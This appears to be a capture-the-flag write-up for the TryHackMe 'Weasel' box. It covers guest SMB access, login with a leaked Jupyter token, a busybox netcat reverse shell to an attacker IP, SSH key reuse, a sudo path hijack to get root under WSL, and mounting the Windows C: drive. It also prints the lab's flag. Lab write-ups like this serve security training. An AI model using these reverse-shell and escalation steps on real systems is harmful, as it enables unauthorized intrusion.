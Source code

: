 <h3> Weasel TryHackMe </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d75505c1-e2ce-4fb1-b86f-fe0818711009)

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8e462a6e-01d5-48fc-bc64-c5fe47d96a15)

From the scan we can tell that this is a windows box 

Let's enumerate smb first

Checking the shares available shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/26c7facd-82f4-4d00-8311-461dfd8143db)

Now we can mount the *datasci-team* share
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/444afca1-a3cb-4896-a042-04ad8d917a25)

```
Command: sudo mount -t cifs -o username=guest,password= //10.10.195.131/datasci-team mount
```

After i looked through the smb folders in that share i didn't see anything interesting except this jupyter token
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5ba4420f-bd7d-455d-b7ee-95cb4e73fdc8)

We can now unmount it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5d1dd99e-5400-4c0c-82a5-a108061808f0)

```
Command: sudo umount mount
```

Back to the port 8888 shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e4664709-f541-4726-897e-fe03b3c6abcd)

This is an instance of jupyter and it's running on port 8888

It requies a token to get logged in

Remember we got a token from the smb so using it here works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/62df165e-d12d-4d19-9ede-7314f75b361a)

```
Token: 067470c5ddsadc54153ghfjd817d15b5d5f5341e56b0dsad78a
```

To get shell on jupyter is very easy since it usually have a python interactive instance and also a terminal 

But let's go with the terminal option

Click on the *new button* then click the *terminal button*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7fc0bd07-3196-4a6d-9bd6-6695bc41e21f)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4958278f-f2f6-458a-b39c-f48fed665167)

I just got a reverse shell using *busybox* binary
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/43e343d2-1f66-49b3-9fb4-0199593dc0f8)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/64553ac3-75c2-4d97-8338-41d227cb7b19)

```
Command: busybox nc 10.2.42.156 1337 -e /bin/bash
```

From here we see that this is a linux host

But our nmap scan showed that this is a windows box 

So the only thing we can think of is that this is a host running [wsl](https://learn.microsoft.com/en-us/windows/wsl/install)

Looking at the current working directory we can see a ssh key for user *dev-datasci-lowpriv*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f8c7c1ed-34b8-4272-86bb-c2aa9a8d287b)

We can try login to ssh cause it works 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3eb644cd-c349-4dac-be61-9fe268d47bf5)

```
Command:-
chmod 600 id_rsa
ssh -i id_rsa dev-datasci-lowpriv@10.10.195.131
```

Let's see if we can root the wsl host because if that works we can just mount the windows host and access the administrator directory 

Also i'm taking this path cause i suck at privesc in windows 😄

Checking *sudo* permission on the wsl shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/843301ef-3f6b-44ac-afb8-2dbe2cb16308)

Interesting we can run */home/dev-datasci/.local/bin/jupyter* as root that looks too easy already 🙂

But trying it doesn't work
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e06c24fe-f20f-4532-99bf-4c1f25d3d0c8)

We get *command not found* and that is because the binary isn't in that specific path smh

I used *find* command then got the binary
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0f7909af-3e5e-4cac-b62f-5b56d05be07b)

```
Command: find / -type f -name jupyter 2>/dev/null
```

Now we can just copy the binary to that path since we have write access *cause /home/dev-datasci/.local* is owned by us
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/761d9d35-f591-4dac-8aed-f3cca7cfc6db)

```
Command: cp /home/dev-datasci/anaconda3/bin/jupyter /home/dev-datasci/.local/bin/jupyter
```

Running sudo on it now works cool
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5dd59267-e719-4140-b8f2-aa27e5ea2d23)

```
Command: sudo /home/dev-datasci/.local/bin/jupyter --help
```

From here we can start a new lab jupyter instance and access it to get a new terminal running as root

Here's the [docs](https://jupyterlab.readthedocs.io/en/latest/) that helped me out 

But i got this error
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/64fcd6c3-a3d2-4a29-be1e-34c49f88d511)

We can add the *--allow-root* to bypass that message 

Doing that now works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/47e0d398-5eb8-4f0e-afb7-8159b7f400ad)

```
Command:sudo /home/dev-datasci/.local/bin/jupyter notebook --ip 10.10.195.131 --port 8089 --allow-root
```

It created this new link with the token as it's GET parameter *http://10.10.195.131:8089/?token=20c98ba247520987b457638652bc252a9f55c74fe42375ba*

I logged out of that jupyter instance and logged in with the new token
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/691750ea-4141-4958-b24e-cd90724ebd3a)

Following the previous way we used to get shell works also
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/25230ead-be03-46df-9929-fe880a5dbfb9)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/cc39d06f-4885-481f-9fa2-e77b396426e2)

But remember we are just root on this wsl but this gives us the permission to access the *C:\* drive on the windows thos

We can now just mount it

Here's the [resource](https://www.public-health.uiowa.edu/it/support/kb48568/) that helped me out

Mounting it works and we can grab the root flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fe087f4c-d35c-4f51-8482-1d2146ffd037)

```
Command:-
mkdir /mnt/windows
mount -t drvfs C: /mnt/windows
```

The flag is saying something about elevated privesc *THM{evelated_w3as3l_l0ngest_boi}* maybe intended was by getting root from the main host via elevated privilege escalation idk 🤔

And we're done 👻
